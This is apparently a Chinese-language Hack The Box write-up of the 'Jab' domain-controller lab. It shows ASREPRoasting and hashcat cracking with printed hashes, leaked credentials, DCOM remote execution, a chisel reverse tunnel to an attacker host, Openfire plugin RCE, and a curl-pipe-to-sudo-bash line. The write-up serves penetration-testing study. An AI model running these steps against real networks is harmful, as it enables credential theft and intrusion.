




---
tags:
  - HTB/Windows
  - HTB/Medium
---
## Summary

...

### Relevant Skills

- nmap
- Jabber/XMPP
- ASREPRoasting
- hashcat
- CME/NXC
- Port Forwarding（chisel）
- CVE-2023-32315

### Attack Path Overview

{ width='450' }


## External Recon - nmap

自用扫描脚本：[工作流](https://github.com/TimeLess613/workflow-scan4HTB/blob/main/workflow-scan4HTB.sh)  
`curl -s https://raw.githubusercontent.com/TimeLess613/workflow-scan4HTB/main/workflow-scan4HTB.sh | sudo bash -s <HTB-IP>`

**开放端口：**
```
PORT      STATE SERVICE             VERSION
53/tcp    open  domain              Simple DNS Plus
88/tcp    open  kerberos-sec        Microsoft Windows Kerberos (server time: 2024-03-21 04:13:08Z)
135/tcp   open  msrpc               Microsoft Windows RPC
139/tcp   open  netbios-ssn         Microsoft Windows netbios-ssn
389/tcp   open  ldap                Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
3268/tcp  open  ldap                Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
5222/tcp  open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
5223/tcp  open  ssl/jabber          Ignite Realtime Openfire Jabber server 3.10.0 or later
5262/tcp  open  jabber
5263/tcp  open  ssl/jabber          Ignite Realtime Openfire Jabber server 3.10.0 or later
5269/tcp  open  xmpp                Wildfire XMPP Client
5270/tcp  open  ssl/xmpp            Wildfire XMPP Client
5275/tcp  open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
5276/tcp  open  ssl/jabber          Ignite Realtime Openfire Jabber server 3.10.0 or later
5985/tcp  open  http                Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
7070/tcp  open  realserver?
7443/tcp  open  ssl/oracleas-https?
7777/tcp  open  socks5              (No authentication; connection failed)
9389/tcp  open  mc-nmf              .NET Message Framing
47001/tcp open  http                Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc               Microsoft Windows RPC
49665/tcp open  msrpc               Microsoft Windows RPC
49666/tcp open  msrpc               Microsoft Windows RPC
49667/tcp open  msrpc               Microsoft Windows RPC
49671/tcp open  msrpc               Microsoft Windows RPC
49674/tcp open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc               Microsoft Windows RPC
49676/tcp open  msrpc               Microsoft Windows RPC
49681/tcp open  msrpc               Microsoft Windows RPC
49776/tcp open  msrpc               Microsoft Windows RPC
59676/tcp open  msrpc               Microsoft Windows RPC
65483/tcp open  msrpc               Microsoft Windows RPC
```

**默认脚本结果：**
```
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
|_ssl-date: 2024-03-21T04:14:58+00:00; -2m51s from scanner time.
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Issuer: commonName=jab-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-11-01T20:16:18
| Not valid after:  2024-10-31T20:16:18
| MD5:   40f9:01d6:610b:2892:43ca:77de:c48d:f221
|_SHA-1: 66ea:c22b:e584:ab5e:07e3:aa8f:5af2:b634:0733:8c06
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
 (...)
```


## 攻击路径规划·漏洞分析

一台域控Windows机。开放了常规的DNS、SMB、LDAP、RPC、winrm系列端口，以及一个不常见的jabber，估计也是这个靶机名的由来。与其相关的有5222等端口，查了下MXPP是jabber的别称。另外，有个端口7777是socks5。  
没有HTTP网页，初步判断从SMB、LDAP收集信息，然后调查不寻常的jabber来突破。


## SMB - 匿名

匿名连接无法列出共享：
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ smbclient //10.10.11.4/ -N
     
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ 
```

最初的默认脚本扫描结果中也确实没有SMB的任何信息。


## LDAP - 匿名

LDAP的匿名连接也没获得什么有用信息，域名、目标主机名之前的扫描结果也能得知就是`DC01.jab.htb`：
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ ldapsearch -LLL -x -H ldap://10.10.11.4 -s base                                  
dn:
domainFunctionality: 7
forestFunctionality: 7
domainControllerFunctionality: 7
rootDomainNamingContext: DC=jab,DC=htb
ldapServiceName: jab.htb:dc01$@JAB.HTB
isGlobalCatalogReady: TRUE
supportedSASLMechanisms: GSSAPI
supportedSASLMechanisms: GSS-SPNEGO
supportedSASLMechanisms: EXTERNAL
supportedSASLMechanisms: DIGEST-MD5
 (...)
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=jab,DC=htb
serverName: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configur
 ation,DC=jab,DC=htb
schemaNamingContext: CN=Schema,CN=Configuration,DC=jab,DC=htb
namingContexts: DC=jab,DC=htb
namingContexts: CN=Configuration,DC=jab,DC=htb
namingContexts: CN=Schema,CN=Configuration,DC=jab,DC=htb
namingContexts: DC=DomainDnsZones,DC=jab,DC=htb
namingContexts: DC=ForestDnsZones,DC=jab,DC=htb
isSynchronized: TRUE
highestCommittedUSN: 262616
dsServiceName: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,
 CN=Sites,CN=Configuration,DC=jab,DC=htb
dnsHostName: DC01.jab.htb
defaultNamingContext: DC=jab,DC=htb
currentTime: 20240323052215.0Z
configurationNamingContext: CN=Configuration,DC=jab,DC=htb
```


## Jabber/XMPP

搜索一下`Ignite Realtime Openfire Jabber`，得知Jabber是XMPP的旧名，它是一种以XML为基础的开放式即时通信协。Openfire是Ignite Realtime这个开源社区下的应用程序名。  
搜了下`Openfire exploit`，发现最近有个`CVE-2023-32315`，以为这就是突破口了。不过看了下这个漏洞是针对9090端口的Openfire Console，用来绕过登录认证以及使用REC插件。

> [Openfire Console Authentication Bypass Vulnerability with RCE plugin](https://github.com/miko550/CVE-2023-32315)

不死心，想着这台机器是不是将默认的9090端口改了，于是访问了jabber相关的所有端口，没有发现Console网页。

### 连接Jabber获的用户清单

没辙了，感觉要研究一下这个Jabber的使用。又看了眼[wiki](https://zh.wikipedia.org/zh-cn/XMPP)说似乎是个聊天软件，以及XMPP是分布式的即时通信系统，然后有客户端服务端什么的。那么下载个客户端，连接目标主机这个服务端应该能发现些什么信息？  
问了下ChatGPT推荐了个客户端，我选择了使用pidgin。



<style>
  .flex-container {
    display: flex;
    align-items: flex-start;
  }
  .flex-container > * {
    margin-right: 20px;
  }
</style>

**添加账号：**
<div class="flex-container">
  
  
</div>

**由于勾选了“在服务器上创建此新账号”，所以要注册：**
<div class="flex-container">
  
  
</div>

**勾选启用进行连接（似乎刚注册的号需要等一段时间才能连接上）：**  
然后探索一下这个XMPP客户端能干什么，发现了一个“搜索用户”的选项
<div class="flex-container">
  
  
</div>

**根据提示，那直接用通配符试试搜索所有用户：**
<div class="flex-container">
  
  
</div>

**由于无法复制用户清单，而我们又发现有个调试窗口，打开后再次执行刚刚的操作，可以发现调式窗口以XML格式输出了所有用户。点击保存。**
<div class="flex-container">
  
  
</div>


提取用户清单中的Email：
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ grep -oP '\w+@jab.htb' purple-debug.log | uniq > user.txt
```

至此，似乎卡住不知道该怎么办了，要密码喷洒感觉难度太大了，一点密码策略都不知道，纯纯暴破感觉不妥。

想起来之前收藏的**[域渗透思维导图](https://orange-cyberdefense.github.io/ocd-mindmaps/)**，机会难得，可以试一下是否有效。  
根据这份思维导图，定位到“got username but no password”的位置，大体上有两个思路，一个就是上面提到的密码喷洒，另一个就是ASREPRoast。


## ASREPRoast

直接照做。一套下来，有3个用户可以无预认证获得TGT（hashcat格式），而其中1个用户凭据可以破解：`jmontgomery@jab.htb:Midnight_121`
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ impacket-GetNPUsers -outputfile GetNPUsers.hash -format hashcat -usersfile user.txt jab.htb/ -dc-ip 10.10.11.4

┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ cat GetNPUsers.hash
$krb5asrep$23$jmontgomery@jab.htb@JAB.HTB:172dc7296896cda97daacb0e737246ec$22a82ab6b10b1947da4abc5d605292d5aa8c6fe54635ecb4107023c122eba597c1a7fdd14cd605ee4a8b001a01fb9b29bfb57e28c99eebe8de30a1ea680619bbbd7a90779569e39359c9ee424dfb8ea6dff1bd3e62f1652b47457501ba344683749f293603629e68629c002db27bef1a30be11a4eb95860c37b23a7c1461a3f4c0bf95709ea69978db20f9bb2f2882461aec11c3a2807dc11f32c3adad849d6a4a4a617b8b1b13a4ee67a983813301833180cf51f7abd9b0476d8acfccb8fe64f4f9554f7fd0eaaac1e258b43497f2eb0c8ec3fa749e4f6bebd4cc8cd65c66f58855
$krb5asrep$23$lbradford@jab.htb@JAB.HTB:12ab21d5362ed0607532dd32922102fd$8445081728b932a7aa56594712ca12a44836d26932e0b6a50057ec346b24b7316d405f86a4cffe6ea54b0bf54b33fd6cacd6e13f5a6795024bd95c6653309ffe042ac3a26b86c5e053986ae9be6d9b82b7d9f58c130616d8de1d2625f240ea84d791b2fdca85ecb8a2a3ecb787f4f02fd4d3bc54a3003552ae34caee05b5122690b487b996879769f1aa790b42ce96a1c1fcf8f9deef50abb93822945d5cb9e1f2c357c38a3ffc1100ac2491bde95abc9ede3e56ae97da0541170d186c14dca95e1524c6a7d6714683baec02841379405f1b4c7cf77de168f41d9c3c41cd083af4cb
$krb5asrep$23$mlowe@jab.htb@JAB.HTB:f06a9e452c5fd320526d20b5f3c10651$cb7496554c06c770a201e3b9c700408c4b893a82da439b13b6cc24e0a45a0512c3a4e065df2b97962efdde07f4d4abad2649d3f972277696721bc5730d314c82bdd45673b8bb6a7f32aafe526e641ad53f0de456d01d612a1c35475d491b93460545095b093f9c8045623d43b661a37cf20d07e9f26a2f8dd705570ea9c865897423de702ea713ca042d41e4fd736d438f46af7ca7dec79fc2feedd63fa95d2032b927760aa4c7c4c8166e4d89899746ea36ac197f3af23be8863147db3ca30b81139677c2ec939b4b72471bbd0dcc8d25f5e868c116ac9afaf58d6f6076c598d21e


┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ hashcat GetNPUsers.hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 7 3700X 8-Core Processor, 1601/3266 MB (512 MB allocatable), 4MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

18200 | Kerberos 5, etype 23, AS-REP | Network Protocol

 (...)

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 0 secs

$krb5asrep$23$jmontgomery@jab.htb@JAB.HTB:172dc7296896cda97daacb0e737246ec$22a82ab6b10b1947da4abc5d605292d5aa8c6fe54635ecb4107023c122eba597c1a7fdd14cd605ee4a8b001a01fb9b29bfb57e28c99eebe8de30a1ea680619bbbd7a90779569e39359c9ee424dfb8ea6dff1bd3e62f1652b47457501ba344683749f293603629e68629c002db27bef1a30be11a4eb95860c37b23a7c1461a3f4c0bf95709ea69978db20f9bb2f2882461aec11c3a2807dc11f32c3adad849d6a4a4a617b8b1b13a4ee67a983813301833180cf51f7abd9b0476d8acfccb8fe64f4f9554f7fd0eaaac1e258b43497f2eb0c8ec3fa749e4f6bebd4cc8cd65c66f58855:Midnight_121
Approaching final keyspace - workload adjusted.
```

## jmontgomery凭据下的探索

### winrm连接失败

拿到一个凭据，且域控有开放5985端口，首先该想到尝试`evil-winrm`连接。  
不过结果失败：
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ evil-winrm -i 10.10.11.4 -u jmontgomery -p Midnight_121

Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1
```

### SMB连接失败

那么从头开始，SMB、LDAP收集信息。

SMB无法登陆：
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ smbclient -L //10.10.11.4/ -U jab.htb/montgomery%Midnight_121  
session setup failed: NT_STATUS_LOGON_FAILURE
```

### LDAP无有用信息

LDAP似乎要求LDAPS连接。
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ ldapsearch -LLL -x -H ldap://10.10.11.4 -D jmontgomery@jab.htb -w 'Midnight_121'                                       
ldap_bind: Strong(er) authentication required (8)
        additional info: 00002028: LdapErr: DSID-0C090389, comment: The server requires binds to turn on integrity checking if SSL\TLS are not already active on the connection, data 0, v4563

┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ ldapsearch -LLL -x -H ldaps://10.10.11.4 -D jmontgomery@jab.htb -w 'Midnight_121' 
ldap_sasl_bind(SIMPLE): Can't contact LDAP server (-1)
```

使用debug模式看了眼，似乎是因为客户端不信任服务器的SSL证书。  
搜了下解决方法——用`export LDAPTLS_REQCERT=never`直接不验证证书，于是可以使用了。  
先看了眼jmontgomery属于哪个OU，大致了解下OU结构。然后试着搜了搜几个OU的description，没什么有用信息。
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ ldapsearch -LLL -x -H ldaps://10.10.11.4 -D jmontgomery@jab.htb -w 'Midnight_121' -d 1
ldap_url_parse_ext(ldaps://10.10.11.4)
ldap_create
ldap_url_parse_ext(ldaps://10.10.11.4:636/??base)
ldap_sasl_bind
ldap_send_initial_request
ldap_new_connection 1 1 0
ldap_int_open_connection
ldap_connect_to_host: TCP 10.10.11.4:636
ldap_new_socket: 3
ldap_prepare_socket: 3
ldap_connect_to_host: Trying 10.10.11.4:636
ldap_pvt_connect: fd: 3 tm: -1 async: 0
attempting to connect: 
connect success
TLS: peer cert untrusted or revoked (0x142)
TLS: can't connect: (unknown error code).
ldap_err2string
ldap_sasl_bind(SIMPLE): Can't contact LDAP server (-1)


┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ export LDAPTLS_REQCERT=never

┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ ldapsearch -LLL -x -H ldaps://10.10.11.4 -D jmontgomery@jab.htb -w 'Midnight_121' -b "DC=jab,DC=htb" "(userPrincipalName=jmontgomery@jab.htb)"
dn: CN=Joyce Montgomery,OU=Server Admin,OU=IT,OU=Corp,DC=jab,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Joyce Montgomery
sn: Montgomery
l: Belleville
postalCode: 7109
givenName: Joyce
distinguishedName: CN=Joyce Montgomery,OU=Server Admin,OU=IT,OU=Corp,DC=jab,DC
 =htb
instanceType: 4
whenCreated: 20231027142621.0Z
whenChanged: 20240322054643.0Z
displayName: Joyce Montgomery
uSNCreated: 45753
memberOf: CN=Contractors,OU=Security Groups,OU=Corp,DC=jab,DC=htb
uSNChanged: 262235
department: DevOps
streetAddress: 4554 Duke Lane
name: Joyce Montgomery
objectGUID:: WlBjJbgLXEyNFGeZmPlfow==
userAccountControl: 4260352
badPwdCount: 6
codePage: 0
countryCode: 0
badPasswordTime: 133492008984698362
lastLogoff: 0
lastLogon: 133429072652390603
logonHours:: ////////////////////////////
pwdLastSet: 133492000755121222
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAABf2rKo+DQ34hQoIO8wYAAA==
accountExpires: 0
logonCount: 2
sAMAccountName: jmontgomery
sAMAccountType: 805306368
userPrincipalName: jmontgomery@jab.htb
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=jab,DC=htb
dSCorePropagationData: 20231027191223.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 133555600035349598
msDS-SupportedEncryptionTypes: 0

# refldaps://ForestDnsZones.jab.htb/DC=ForestDnsZones,DC=jab,DC=htb

# refldaps://DomainDnsZones.jab.htb/DC=DomainDnsZones,DC=jab,DC=htb

# refldaps://jab.htb/CN=Configuration,DC=jab,DC=htb


┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ ldapsearch -LLL -x -H ldaps://10.10.11.4 -D jmontgomery@jab.htb -w 'Midnight_121' -b "OU=IT,OU=Corp,DC=jab,DC=htb" description          
dn: OU=IT,OU=Corp,DC=jab,DC=htb
description:: SW5mb3JtYXRpb24gVGVjaG5vbG9neSBwZXJzb25uZWwg

dn: OU=HelpDesk,OU=IT,OU=Corp,DC=jab,DC=htb
description:: SGVscCBEZXNrIHBlcnNvbm5lbCA=

dn: CN=Dagmar Payne,OU=HelpDesk,OU=IT,OU=Corp,DC=jab,DC=htb

 (...)

┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ ldapsearch -LLL -x -H ldaps://10.10.11.4 -D jmontgomery@jab.htb -w 'Midnight_121' -b "CN=Configuration,DC=jab,DC=htb" description | grep description
description: The Personally Identifiable Information (PII) property specifies 
description: The Protected Health Information (PHI) property specifies whether
 (...)
```


### 再次登录Jabber发现新凭据

尝试用这个号登录pidgin，在菜单发现“添加聊天”中有个“聊天室列表”。在其中发现一个叫“pentest2003”的聊天室，里面提到之前的渗透测试中破解了一个带SPN的账号（`svc_openfire:!@#$%^&*(1qazxsw`）。似乎已经删除SPN了，但是没说改密码的事情。可以尝试是否可以利用？


## svc_openfire凭据下的探索

继续重复前面的步骤，结果一无所获。  
于是又翻看着那份**[域渗透思维导图](https://orange-cyberdefense.github.io/ocd-mindmaps/)**，目前是“valid credentials”的阶段。其中说的获取用户清单、枚举SMB共享、LDAP之前都试过了没什么有用信息。那就转向“bloodhound”看看吧。

*另外，枚举用户和SMB共享看他用的[CME（CrackMapExec）](https://github.com/byt3bl33d3r/CrackMapExec)，想起来之前看到说CME已经停止维护了，现在似乎[NetExec（nxc）](https://github.com/Pennyw0rth/NetExec)是其替代品，于是正好在这台机器也实践了一下NetExec。竟然能枚举出SMB共享列表（前面用`smbclient`都直接报错不能登录来着）。还挺神奇的。*

### BloodHound探索

首先看到**[域渗透思维导图](https://orange-cyberdefense.github.io/ocd-mindmaps/)**中用的命令是`bloodhound-python`，[安装](https://www.kali.org/tools/bloodhound.py/)执行后总是报错（后来发现其实加入`-ns`选项就能解决，当时没懂）。于是倒腾了一下`nxc`发现其ldap模块也能调用bloodhound，于是索性用`nxc`解决了。  
`nxc ldap 10.10.11.4 -u svc_openfire -p '!@#$%^&*(1qazxsw' --bloodhound -c all -ns 10.10.11.4`

结果输出一个zip文件，然后意识到需要GUI，于是还得[安装完整的bloodhound](https://www.kali.org/tools/bloodhound/)。配置好之后上传zip结果文件，点了点预定义的搜索没发现什么有用的信息（可能主要是不太会用）。最后想到直接搜搜目前拿到的两个域账户，结果发现`svc_openfire`似乎是可利用的：



### ExecuteDCOM

搜了下`ExecuteDCOM`，发现了值得参考的文章：
> 利用方法：<https://simondotsh.com/infosec/2021/12/29/dcom-without-admin.html>  
> 扩展知识：<https://book.hacktricks.xyz/windows-hardening/lateral-movement/dcom-exec#mmc20.application>

按照文章中的命令执行，发现卡在“SMBv3.0 dialect used”，最后发现用`-nooutput`选项就好了：  
*因为卡在SMB连接，而help看这个选项说“no SMB connection created”。*  
*而后细看上面文章提到的`-silentcommand`，试了下也行，可能理由一样，就是文章里说的“since the script is using an SMB share to write and fetch the output, and our low-privileged user cannot write to any.”？*

```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ impacket-dcomexec jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 "whoami" -object MMC20
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
^C[-] 


┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ impacket-dcomexec jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 "whoami" -object MMC20 -nooutput
Impacket v0.11.0 - Copyright 2023 Fortra

┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ 
```


## Initial Access

由于无法输出命令结果到终端，为了验证命令是否真的被执行，于是尝试ping自己并监听网卡，发现收到ping包——即命令可成功执行：


接下来就准备反弹shell，成功接收：


## flag: user

svc_openfire用户的桌面就有flag：
```powershell
PS C:\Users\svc_openfire\desktop> ls


    Directory: C:\Users\svc_openfire\desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---        3/24/2024   3:20 AM             34 user.txt                                                              


PS C:\Users\svc_openfire\desktop> cat user.txt
501 (...) d2e
```


## Privilege Escalation

### Internal Recon

在端口信息中发现开放了本地端口9090——即最开始我们谷歌搜到的`CVE-2023-32315`。原来是在这里用啊……

```
PS C:\Users\svc_openfire\Desktop> netstat -anop tcp |findstr LISTEN
 (...)
  TCP    127.0.0.1:9090         0.0.0.0:0              LISTENING       3128
  TCP    127.0.0.1:9091         0.0.0.0:0              LISTENING       3128
```

### PoC (CVE-2023-32315 like)

#### chisel配置端口转发

首先配置端口转发，本来想跟[之前一样用SilverC2](./HTB-OnlyForYou.md#sliver-c2)或msf，正好在桌面看到前人留下的chisel（文件上传方法在此也就省略了，可参考[HTB-Authority](./HTB-Authority.md#certify)），以前也没用过，那这次就试试chisel吧。  
其实看help没太懂怎么用，搜了下，还得是[Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#port-forwarding)啊：
```
chisel server -p 12312 --reverse    #Server -- Attacker
./chisel.exe client 10.10.14.14:12312 R:9090:127.0.0.1:9090    #Client -- Victim
```

配置完成后浏览器访问，成功显示console登录界面：



接下来就是按照[github大佬的exp](https://github.com/miko550/CVE-2023-32315)了。

不过，执行exp后用新创建的用户登录会失败：


这也正常，可以发现登录界面写了版本`4.7.5`，而`CVE-2023-32315`也正好在这个版本修复了。

> [The problem has been patched in Openfire release 4.7.5...](https://nvd.nist.gov/vuln/detail/CVE-2023-32315)


#### 插件漏洞获得反弹shell

但是，我们可以用`svc_openfire`账户成功登陆：  


继续试试这个插件能否使用，  


经过和之前一样的ping方式验证，这个插件还是可以执行任意命令，于是毫不犹豫执行反弹shell命令，成功getshell：  


## flag: root

```powershell
PS C:\Users\administrator\desktop> ls


    Directory: C:\Users\administrator\desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---        3/24/2024   3:20 AM             34 root.txt                                                              


PS C:\Users\administrator\desktop> cat root.txt
1b68 (...) 8776
```


---

## 总结·后记

2024/03/22

这简直是我打过的最有趣的Windows靶机了。  
一部分是因为利用这份[域渗透思维导图](https://orange-cyberdefense.github.io/ocd-mindmaps/)，让我体验了多种以前未使用过的工具，包括chisel。  
另一方面，openfire的线索设计太棒了。一开始以为是立足用的，想着竟然这么容易就找到是利用CVE-2023-32315？然后发现谷歌直接搜出来的这个CVE根本用不上，于是继续进行探索并立足。最后竟然是在提权中涉及这个CVE，并且靶机是给了个CVE-2023-32315已修复的版本。一开始疑惑着这个CVE果然还是不管用了，结果竟然是拿着手头上的已知凭据能登陆管理界面，然后又能利用CVE-2023-32315中提到的插件执行RCE来提权。多次牵引又打乱对这个漏洞的思维关联，最终还是柳暗花明，设计得十分有趣。


关于[ExecuteDCOM](#executedcom)，  
后来复盘结合上面DCOM利用方法的文章，再去确认了下这个用户的组是否有里面提到的`Distributed COM Users`——还真有，原来这就是可利用的原因啊。

```powershell
PS C:\windows\system32> whoami /all

USER INFORMATION
----------------

User Name        SID                                         
================ ============================================
jab\svc_openfire S-1-5-21-715914501-2118353807-243417633-1104


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes                                        
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Distributed COM Users               Alias            S-1-5-32-562 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448                                                    


PRIVILEGES INFORMATION
